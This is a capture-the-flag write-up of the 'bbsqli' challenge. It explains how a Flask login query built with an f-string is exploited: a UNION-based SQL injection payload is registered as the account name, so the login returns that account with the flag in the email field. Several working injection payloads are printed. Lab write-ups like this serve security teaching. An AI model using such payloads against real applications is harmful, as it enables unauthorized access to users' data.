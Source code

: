 # bbsqli
```
SO Classic !

Author: xhalyl

http://45.129.40.107:9676/
```
---

**TL;DR** \
An SQL injection during login, however the username from the _**DB**_ is checked
against the username in the _**request**_, thus the SQLi has to return itself as
the **username**. The flag will be inside the **email**.

The final payload looks like this
```
" UNION SELECT users.username, flags.flag, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --
```
Register an account with it as the *name* and then login into it.

## Writeup

Attached is `bbsqli.zip`, [containing](bbsqli):
```
app.py

utils.py
static/
templates/

Dockerfile
requirements.txt
```
Inspecting [app.py](bbsqli/app.py) we see a few interesting lines:
```py
from flask import Flask, render_template, request, redirect, url_for, session
import sqlite3
```
- It's a **flask** webserver
- It uses **sqlite3**
```py
def add_flag(flag):
    conn = get_db_connection()
    cursor = conn.cursor()
    cursor.execute('INSERT INTO flags (flag) VALUES (?)', (flag,))
    conn.commit()
    conn.close()
```
- The **flag** is stored in the `flags` table

Also, from the name - _bb**sqli**_ we can guess that the challenge is an **SQL
injection.** \
Let's search for some potentially vulnerable SQL. \
In the `login` function we find:
```py
cursor.execute(f'SELECT username,email,password FROM users WHERE username ="{username}"')
```
This means we can *easily* inject SQL! Right? Right..?

Well, this is partially true. Although we indeed can run "any" SQL, it follows a
`SELECT`, so we can't update/create data in the database.

*Just return the flag as the username/email, what's the problem?*

The app makes sure that the *username* from the **DB** matches the **requested** *username*
```py
if user and user['username'] == username and user['password'] == hash_password(password):
    session['username'] = user['username']
    session['email'] = user['email']
else:
    return render_template('login.html', error='Invalid username or password')
```

So for example something like
```sql
" UNION SELECT flag AS username, '', '' FROM flags --
```
Wouldn't work, because the **requested** username is \
`" UNION SELECT flag AS username, '', '' FROM flags --` \
while the username from the **DB** would be something like \
`L3AK{a_flag_here}`

So the `if` condition would evaluate `false` and we would get an error page.

Another thing to notice here is that on a successful login, we will see
[templates/dashboard.html](bbsqli/templates/dashboard.html), which contains
```html
<h2>Welcome, {{ user }}!</h2>
<p>Email: {{ email }}</p>
```
Alright, so if we could set the *email* to the flag, and pass the `if` check, we
will get it! Great.

**Now, how do we pass the check?**

We need to have our username *equal* the SQL injection. We can create an account
with the name of the SQLi, but how would we return it? After all, we can't just
put it inside itself
```
" UNION SELECT '" UNION SELECT '', flag AS email, '667ff118ef6d196c96313aeaee7da519' FROM flags --', flag AS email, '667ff118ef6d196c96313aeaee7da519' FROM flags --
```
Because, well, that's just recursive, as now we will have to put it into itself
once again, and like this for *eternity*.

Thankfully, SQL allows us to select a user using a pattern with the `WHERE LIKE` syntax.
For this we will have to take our original idea for an injection
```sql
" UNION SELECT flag AS username, '', '' FROM flags --
```
And modify it. First, we want to select our user. For that let's add a *recognizable* comment

```
" /* findme */ UNION SELECT username, 'FLAG{TODO}', password FROM users WHERE username LIKE '%findme%' --
```
![`/dashboard` Welcoming us with `Email: FLAG{TODO}`](./images/partial_success.png)

Great!

Now we just need to get the flag from the flags table and supply it instead of
the email. For this we can use **JOIN**. Because there's only *one* flag, we can get it with `flags.id` being `1`

```sql
" /* findme */ UNION SELECT users.username, flags.flag AS email, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --
```

Here's the highlighted and formated query that will run on the server
```sql
SELECT username, email, password
    FROM users
    WHERE username ="" /* findme */
UNION
SELECT users.username, flags.flag AS email, users.password
    FROM users
    JOIN flags
        ON flags.id = 1
    WHERE users.username
    LIKE '%findme%' -- "
```

Alright, now we just visit `http://45.129.40.107:9676/register`, create an account with that name, and login!
Also, we probably should change `findme` to something a bit more *unique* to not find a different, existing, user
> [!NOTE]
> The SQLi happens during **login**, we register just so it's possible for us to **SELECT** it as the username during the SQLi.

![`/register` with the SQLi as the username](./images/final_register.png)

Login into the user

![`/login` with the same SQLi as the username](./images/final_login.png)

Success!

![`/dashboard` Welcoming us with `Email: L3ak{__V3RY_B4S1C_SQLI}`](./images/final_dashboard.png)

**Flag:** L3ak{__V3RY_B4S1C_SQLI}

> _**PS:**_ After the CTF I realized that we don't actually need a comment, as the content of `LIKE` already contains a string. So this would also work: `" UNION SELECT users.username, flags.flag, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --`
